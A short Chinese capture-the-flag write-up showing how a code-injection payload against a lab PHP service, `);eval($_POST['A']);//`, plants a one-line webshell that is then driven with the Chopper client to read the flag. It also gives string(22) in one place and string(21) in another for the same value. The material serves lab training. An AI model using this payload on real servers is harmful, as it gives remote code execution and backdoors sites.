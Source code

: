 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.构造payload：

```php
?hello=);eval($_POST['A']);%2f%2f
```

3.`var_dump($a);`后的结果为

```php
string(22) ");eval($_POST['A']);//"
```

和前面代码拼合之后就是:

```php
eval("string(21) ");eval($_POST['A']);//"");
```

即成功构造php一句话木马。

4.菜刀连接

![](files_for_writeup/2.png)

5.获取flag

![](files_for_writeup/3.png)

